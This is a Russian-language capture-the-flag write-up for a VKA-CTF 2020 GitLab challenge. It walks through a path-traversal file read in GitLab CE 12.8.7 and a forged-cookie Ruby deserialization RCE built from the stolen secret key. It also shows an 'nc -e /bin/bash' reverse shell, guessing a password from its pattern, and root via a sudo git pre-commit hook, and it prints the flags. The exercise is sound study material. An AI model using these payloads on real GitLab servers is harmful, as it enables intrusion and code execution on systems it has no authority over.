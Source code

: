## Корпоративная разработка

| Событие | Название | Категория | Сложность |
|:--------|:---------|:----------|----------:|
| VKA-CTF`2020 | Корпоративная разработка | HTB | ВЫПУСК/1-3 курс |

### Описание
> Автор: [ 𝕂𝕣𝕒𝕦𝕤𝕖 ]
>
> Один очень уважаемый полковник недавно очень неудачно съездил на отдых в Крым. Как итог - все его репозитории на сайте github были заблокированы. Не очень долго думая, он решил поднять собственную систему контроля версий. Ну как поднять, просто поставил задачу своему подчиненному. Осталось только [проверить](https://gitlab.vkactf.tk/) как хорошо он с ней справился.

### Решение
#### USER
---
#### Arbitrary File Read
При входе на сайт видим gitlab сервер. Мы можем узанть его версию на `/help`
```
GitLab Community Edition 12.8.7
```
На HackerOne есть [отчёт](https://hackerone.com/reports/827052), в котором сказано, что данная версия уязвима к произвольному чтению файлов сервера.

Согласно отчёту необходимо выполнить следующие действия:

- Создать два проекта
- Добавить в первый проект issue со следующим примечанием:
```
![a](/uploads/11111111111111111111111111111111/../../../../../../../../../../../../../../etc/passwd)
```
- Переместить созданный issue во второй проект
- Перейти во второй проект и прочитать файл

#### RCE
Таким образом мы имеем произвольное чтение файлов. Используем это, чтобы получить `RCE`

1) Нам необходимо узнать секретный ключ сервера. Читаем файл `/opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml` и сохраняем себе ключ:
`secret_key_base: b15392...`

2) Далее удостоверяемся, что на сервере установлен сериализатор `:hybrid`
Читаем файл `/opt/gitlab/embedded/service/gitlab-rails/config/initializers/cookies_serializer.rb`
и проверяем строчку `Rails.application.config.action_dispatch.cookies_serializer = :hybrid`

3) Следующим шагом необходимо поднять `gitlab` этой же версии у себя и поменять у него секретный ключ, который мы получили в шаге `1`

4) Внутри вашего GitLab контейнера (если вы использовали `docker`, чтобы поднять `gitlab`) запускаем `rails console` и выполняем следующие команды:
```ruby
> gitlab-rails console
request = ActionDispatch::Request.new(Rails.application.env_config)
request.env["action_dispatch.cookies_serializer"] = :marshal
cookies = request.cookie_jar
erb = ERB.new("<%= `your_command_here` %>")
depr = depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb, :result, "@result", ActiveSupport::Deprecation.new)
cookies.signed[:cookie] = depr
puts cookies[:cookie]
```
Чтобы получить `Reverse Shell` можно воспользоватся командой `nc -e /bin/bash URL PORT`

5) После выполнения последней команды вы получите `cookie`. Используем их, чтобы отправить запрос на `gitlab` и выполнить команду:
```bash
curl 'https://gitlab.vkactf.tk/' -b "remember_user_token=КУКА_ЗДЕСЬ"
```
Используя обратную оболочку, мы будем выполнять команды от имени поьзователя `git`
#### OSINT
Создав свой аккаунт на `gitlab`, можно найти публичный репозиторий `secret-project`. В одном из его issues указана ссылка на репозиторий [github](https://github.com/C0mr4d3NeR4d), которая нам недоступна. Пробуем найти имя `C0mr4d3NeR4d` в соцсетях. Находим в [Twitter](https://twitter.com/C0mr4d3NeR4d)

На этой странице последний пост указывает на репозиторий на [gitlab](https://gitlab.com/D3finit3lyNotComr4d3/test_service). Изучив немного код, можно заметить, что все пароли созданы по шаблону `servicename_aka47`

Пробуем использовать этот шаблон для доступа к пользователям `comrade` и `cadet` на `gitlab` сервере. Пароль `cadet_aka47` не подошёл, зато подошёл `comrade_aka47`. Заходим с этим паролем за пользователя `comrade` и получаем первый флаг

**Флаг:**

> vka{c00l_4rb17r4ry_f1l3_r34d}

#### ROOT
---
#### Privilege Escalation
Пользователи `comrade` и `cadet` имеют общую группу. Заходим в домашнюю папку пользователя `cadet` и находим тот самый открытый репозиторий `secret-project`

Нам досутпно выполнение команд `git` от имени суперпользователя без пароля
```bash
> sudo -l
(ALL) NOPASSWD: /usr/bin/git
```
Мы не можем взаимодействовать с удалённым репозиторием, так как не знаем пароль пользователя. 

`GIT` имеет [хуки](https://git-scm.com/book/ru/v2/%D0%9D%D0%B0%D1%81%D1%82%D1%80%D0%BE%D0%B9%D0%BA%D0%B0-Git-%D0%A5%D1%83%D0%BA%D0%B8-%D0%B2-Git), которые выполняются после/до определённых команд. Таким образом, мы может создать `хук`, который выполнится, например, до команды `git commit`

В директории `.git/hooks/` создаём файл `pre-commit` с правами `755` и записываем в него код, который исполнится от имени суперпользователя, например
```bash
#!/bin/bash
cat /root/root.txt
```
Создаём какие-либо изменения, добавляем их в отслеживание, выполняем коммит и получаем флаг

**Флаг:**

> vka{c00l_pr1v1l463_35c4l4710n}